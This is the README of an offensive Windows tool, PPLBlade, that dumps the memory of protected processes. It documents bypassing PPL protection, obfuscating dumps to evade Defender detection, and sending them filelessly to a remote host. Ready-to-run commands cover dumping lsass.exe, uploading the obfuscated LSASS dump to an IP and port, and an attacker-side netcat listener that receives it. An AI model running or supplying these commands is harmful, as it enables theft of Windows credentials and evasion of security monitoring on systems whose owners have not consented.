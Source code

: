 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

**Key functionalities**:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe._

It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

**Modes**:
1) **Dump** - Dump process memory using PID or Process Name
2) **Decrypt** - Revert obfuscated(--obfuscate) dump file to its original state
3) **Cleanup** - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) **DoThatLsassThing** - Dump lsass.exe

**Handle Mode**s:
1) **Direct** - Opens PROCESS_FULL_ACCESS handle directly, using OpenProcess() function
2) **Procexp** - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username

Examples:
PPLBlade.exe --mode dothatlsassthing
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
PPLBlade.exe --mode decrypt --dumpname PPLBlade.dmp --key PPLBlade
PPLBlade.exe --mode cleanup
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

```
PPLBlade.exe --mode dothatlsassthing
```
It will use PROCEXP152.sys driver to dump lsass.exe. _(Note that it does not XOR dump file, provide an additional obfuscate flag to enable the XOR functionality)_



Upload the obfuscated LSASS dump onto a remote location:

```
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
```
PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade
````

